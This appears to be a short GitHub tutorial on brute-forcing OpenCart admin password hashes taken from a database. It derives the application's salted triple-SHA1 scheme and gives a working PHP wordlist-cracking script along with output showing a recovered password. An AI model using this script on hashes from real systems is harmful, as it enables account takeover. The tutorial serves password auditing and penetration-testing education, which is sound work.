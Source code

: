 # Brute Force Attack In OpenCart Stored Passwords.
In this little tutorial I demonstrate how to perform a brute force attack based in word lists on passwords stored in OpenCart application databases.


## SCENERY:
- You have access to the database of an application that uses OpenCart.
- You query the Password Hash and Salt in the administrator table and you get the following result:

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@pentest-server.com 	| 1      | Admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEM:
You are not familiar with the OpenCart password encryption system, so you will try to unmask this `hash` with brute force using services that are based on simple SHA1 encryption.

```php
#exemple:

<?php
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password){echo "PASSWORD: ".$string;} else{}
}
?>
```


The problem is that `$ password` is not simply a string encrypted with SHA1, or MD5, or SHA1 (MD5) ... Anyway, a usual brute-force script based on these encryption templates would hardly generate a` hash` equal to `hash` that you want to 'unmask'.

## SOLUCTION:
We need to create our own script that will search the hash string in the correct form.
And what would be the correct way?

SE CHECARMOS O ARQUIVO PHP QUE FAZ A AUTENTICAÇÃO DO ADMIN NO OPENCART
`\opencart\system\library\user.php`

WE FIND THE FOLLOWING CODE:
```
$user_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "user WHERE username = '" . $this->db->escape($username) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1'");
```

INTERESTING PART:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

ADAPTING THE CODE WE HAVE:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

**obs**: I ignored this part `OR password = '" . $this->db->escape(md5($password)) . "')` since we tested our hash and we already know that it is SHA1, right?


## Now we know how to encrypt the strings of our wordlist to compare with the hash found in the admin table.

A simple php script to test brute force on OpenCart passwords would look like this:


```php
#exemple:

<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){echo "PASSWORD: ".$string;} else{}
}
?>
```

```
C:\Users\demo\open-cript-master>php opencript.php
PASSWORD: 12345
```

## Final considerations
- the attack I did was using word list, but you can implement for other tests. Use your imagination.
- If any word is wrong do not blame me, Blame the translator.

###### _NEED ME? [pablov3rlly gmail com]_

